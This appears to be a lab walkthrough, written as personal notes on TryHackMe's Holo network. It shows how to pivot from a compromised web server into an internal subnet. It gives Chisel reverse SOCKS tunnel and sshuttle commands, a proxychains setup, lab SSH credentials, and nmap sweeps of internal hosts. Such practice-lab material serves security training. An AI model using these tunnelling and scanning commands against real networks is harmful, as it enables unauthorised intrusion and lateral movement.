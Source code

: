 Now that you have gained root access to L-SRV01, you need to identify where to go next. You know there are no other external machines in scope, so you decide to move into the internal network. To gain access to the internal subnet, you need to perform what is known as pivoting.

In a well-maintained network, often referred to as a "Segmented Network," there are specific rules in place preventing users from accessing certain parts of the Internal LAN (ex. The Workstation Subnet should not be able to access the Server Subnet). We will need to "pivot" from an already compromised server using a SOCKs server or other means like port forwarding to access different network resources.  

There are several tools outlined below that can help us in pivoting.  

- sshuttle
- Chisel
- Ligolo
- Metasploit autoroute

In this task, we will be focusing on both Chisel and sshuttle, each offering unique ways to approach pivoting.  

## Chisel

The first tool that we will be looking at is Chisel. From the Chisel GitHub, *"Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable, including both client and server. Written in Go (Golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*  

From the Chisel GitHub, below is an overview of chisel architecture.

![[Task 23 - Digging a tunnel to nowhere-20240926150119258.webp]]

To begin using Chisel, we must first download the tool. If you utilize the stable release or docker, you will not need to download any dependencies. If you compile from source, you will need to install a few dependencies outlined on their GitHub. There are three common ways of obtaining the tool, outlined below.  

- Stable release: [](https://github.com/jpillora/chisel/releases)[https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
- Docker: `docker run --rm -it jpillora/chisel --help`
- Source: `go get -v [github.com/jpillora/chisel](<http://github.com/jpillora/chisel>)`

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.  

To create a SOCKs server with Chisel, you will only need two commands ran on the target and the attacking machine, outlined below.  

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

Now that we have a SOCKs server set up, we need to interpret and manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the proxy in the command line. To add the SOCKs server to proxychains, you will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

![[Task 23 - Digging a tunnel to nowhere-20240926150205470.webp]]

You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route through the proxy with proxychains. An example usage can be found below.  

Example usage: `proxychains curl http://<IP>`



## sshuttle
The second tool we will be looking at is sshuttle. Sshuttle is unique in its approaches to pivoting because all of its techniques are done remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are that <u>it will only work if there is an ssh server running on the machine</u>, and it <u>will not work on Windows hosts</u>. You can download sshuttle from GitHub, [https://github.com/sshuttle/sshuttle](https://github.com/sshuttle/sshuttle)  

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this parameter, you will specify the user and target like you would for a standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of syntax below.  

Syntax: `sshuttle -r USER@MACHINE_IP 0.0.0.0/0`

For more information about sshuttle and how to use it, check out the documentation, [https://sshuttle.readthedocs.io/en/stable/overview.html](https://sshuttle.readthedocs.io/en/stable/overview.html).


---

# Your job

Before you can pivot, you do need to know where you are in the network and where you are trying to get to.
Creating a Network Diagram is the best way to do it.

![[Diagram.svg]]

The above diagram shows the route: 
- You went via a docker container and back to the host that had the 4 websites right back at the start. 
- Then you got root on that via docker.
- You added a SSH key so you now have direct access to that box via SSH as either the **root** user or the **linux-admin** user with the cracked password.
- Looking at y your THM dashboard, two new IP have appeared, which are 10.200.X.30 and 10.200.X.31. 
- You cannot ping this from your host, so instead you will have to pivot through the webserver (L-SRV01) host to gain access to it.

## Pivoting with chisel

- SSH to L-SRV01 with the following credentials:
	User: `linux_admin`
	Password: `linuxrulez`
	`ssh linux_admin@10.200.X.33`
or
- [[SSH to the victim machine with a key.]]

- On the attacking machine: `./chisel server -p 8000 --reverse`

- On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

## Pivoting with sshuttle


> [!Note]
The command requires a few bits of information, these include: 
The username and address of your pivot target.
A keyfile if you are using a key pair (which you are).
The subnet you want to gain access too and you need to remove the IP you are connecting too, otherwise everything gets very confused. This translates to:
`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET -x <IP>`


- Run on the attacking machine the following command:
	`sshuttle -r root@admin.holo.live --ssh-cmd "ssh -i /home/kali/.ssh/id_rsa" 10.200.X.0/24 -x 10.200.X.33`
	![[Task 23 - Digging a tunnel to nowhere-20241008134113133.webp]]

- On another terminal connect via SSH.
	`ssh root@admin.holo.live -i /home/kali/.ssh/id_rsa` 

- Run nmap against the target 10.200.X.31.
	root@ip-10-200-95-33:~# `nmap 10.200.95.31 -Pn`
	
	![[Task 23 - Digging a tunnel to nowhere-20241008140800233.webp]]

- Look at the internal network.
	root@ip-10-200-95-33:~# `nmap 10.200.95.0/24 -Pn`
	
	![[Task 23 - Digging a tunnel to nowhere-20241008141821503.webp]]
	
You've found the following 5 hosts available:

	- 10.200.95.30
    - 10.200.95.31
    - 10.200.95.32
    - 10.200.95.33
    - 10.200.95.35


**Next step:** [[Task 24 - Command your Foes and Control your Friends]]